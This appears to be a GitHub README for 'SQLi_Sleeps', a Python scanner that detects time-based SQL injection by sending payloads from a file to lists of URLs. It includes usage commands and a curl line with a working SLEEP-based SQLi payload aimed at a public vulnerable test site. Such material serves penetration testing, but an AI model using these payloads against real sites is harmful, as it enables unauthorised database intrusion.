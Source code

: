 # SQLi_Sleeps
It is a simple script that allows to find SQLi vulnerabilities, obtaining the response time greater than 20 seconds per medium and time-based injection.


```sh
usage: SQLi_Sleeps2.py [-h] -u URLS -d DATA [-c COOKIE]

Realiza una petición GET a múltiples URLs con diferentes datos.

options:
  -h, --help            show this help message and exit
  -u URLS, --urls URLS  Archivo de texto con las URLs a las que se les realizará la petición GET.
  -d DATA, --data DATA  Archivo de texto con los datos que se agregarán a las URLs.
  -c COOKIE, --cookie COOKIE
                        Cookie a incluir en la petición GET.

# Cookie simple
python3 script.py -u urls.txt -d data.txt -c "session=abc123"

# Múltiples cookies
python3 script.py -u urls.txt -d data.txt -c "session=abc123; user_id=456"

# Sin cookie
python3 script.py -u urls.txt -d data.txt

```

```sh
cat urls.txt | sed 's/FUZZ//g'
```
![image](https://user-images.githubusercontent.com/66162160/234191152-7f27d67b-2a32-476d-8668-0334b1ff08ae.png) <br>

## PoC

```sh
python3 SQLi_Sleeps2.py -u urls.txt -d data.txt
```

<img width="1206" height="543" alt="image" src="https://github.com/user-attachments/assets/a1833e75-be16-43f2-9de5-5ff9401dd427" /><br>

Manual analysis

```sh
time curl "http://testphp.vulnweb.com/search.php?test=query'XOR(SELECT(0)FROM(SELECT(SLEEP(5)))a)XOR'Z" -I
```

<img width="890" height="241" alt="image" src="https://github.com/user-attachments/assets/ec7a995a-9965-481d-8361-a7e84cb8e282" /><br>
